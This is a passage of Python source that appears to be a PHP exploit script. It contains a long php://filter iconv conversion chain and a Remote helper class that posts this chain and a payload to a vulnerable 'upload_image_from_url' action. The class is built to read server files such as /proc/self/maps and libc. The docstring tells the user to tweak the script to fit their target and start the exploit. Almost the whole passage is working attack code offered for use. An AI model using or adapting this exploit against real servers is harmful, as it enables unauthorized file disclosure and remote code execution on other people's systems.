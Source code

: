 ~~~ python
wrappers_chain = "'php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='"


class Remote:
    """A helper class to send the payload and download files.
   
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
   
    The code here serves as an example that attacks a page that looks like:
   
    ```php
    <?php
   
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
   
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(wrappers_chain + path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
       
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
~~~